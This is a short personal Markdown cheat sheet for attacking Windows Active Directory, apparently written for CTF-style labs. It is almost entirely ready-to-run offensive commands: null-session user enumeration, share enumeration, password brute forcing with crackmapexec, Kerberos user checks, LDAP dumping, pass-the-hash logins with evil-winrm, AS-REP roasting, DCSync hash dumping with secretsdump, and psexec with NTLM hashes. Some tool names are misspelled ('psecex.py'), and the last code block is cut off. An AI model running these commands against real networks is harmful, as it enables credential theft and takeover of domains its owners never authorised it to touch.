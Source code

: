 Windows Enum Cheatsheet
=======================
----------------------
(work in progress)

## enum users
```
rpcclient -U '' 10.10.1.2
enumdomusers	# search for users
querydispinfo	# anything in description field
index: 0xee0 RID: 0x464 acb: 0x00000214 Account: a.doe     Name: Adrian Doe   Desc: (null)
queryuser 0x464 # see more info
```
get only usernames:
```
cat file | awk -F\[ '{print $2}' | awk -F\] '{print $1}' > users.txt
```

## enum shares
with the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
```
crackmapexec smb 10.10.1.2 --shares
crackmapexec smb 10.10.1.2 -u '' -p '' --shares
crackmapexec smb 10.10.1.2 -u '' --shares

smbclient -L 10.10.1.2
smbclient -U '' -L 10.10.1.2

smbmap -H 10.10.1.2 -u '' -p ''
```

## check valid users
https://github.com/ropnop/kerbrute
```
./kerbrute userenum --dc 10.10.1.2 --d domainname.local users.txt 
```

## brute force
with the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
Get the password policy:
```
crackmapexec smb 10.10.1.2 --pass-pol
```
Check the accountlockout option before you start a brute force. Also you can check the min length etc.
```
crackmapexec smb 10.10.1.2 -u users.txt -p password.txt 
```
make sure you update to the latest version if you want to use this:
```
cme smb 10.10.10.182 -u username -p password -M spider_plus
```
This crawls through every share we have access to and returns it in json.

## mount
```
mkdir /mnt/data
mount -t cifs -o 'user=username,password=password' //10.10.1.2/sharename /mnt/sharename
```

## ldap
```
ldapsearch -x -h 10.10.1.2 -s base namingcontexts
```

Query domain and dump ldap:
```
ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=example,DC=local' > ldapdump
```
Grab interesting unique things:
```
cat ldapdump | awk '{print s$1}' | sort | uniq -c| sort -nr
```
Get rid of base64:
```
cat ldapdump | awk '{print s$1}' | sort | uniq -c| sort -nr | grep : 
```
If you find anything interessting search for it in the dump

## gaining access
check
with the latsest version of crackmapexec use 'cme' instead of 'crackmapexec'
```
cme winrm 10.10.1.2 -u username -p password
cme winrm 10.10.1.2 -u username -H ntlmhash
```
evil-winrm: (when it's not installed use this, otherwise it's just 'evil-winrm -i ... etc')
```
ruby evil-winrm.rb -i 10.10.1.2 -u username -p password
ruby evil-winrm.rb -i 10.10.1.2 -u username -H ntlmhash

```
## impacket
### GetNPUsers.py
Queries target domain for users with 'Do not require Kerberos pre auth' set and export the TGTs for cracking
```
GetNPUsers.py domainname.local/ -usersfile users.txt -format john
```
### secretsdump.py
Let the domain think you are another DC. In order to sync I need all the password hashes. So with the right persmissions you'll get some hashes.
```
secretsdump.py domainname.local/username@10.10.2.1
```

### pcexec.py
format for hash is LMHASH:NTHASH, but you can use the NTLM hash twice because windows doesn't really use LMHASH
```
psecex.py domainname.local/username@10.10.2.1 -hashes NTLM:NTLM



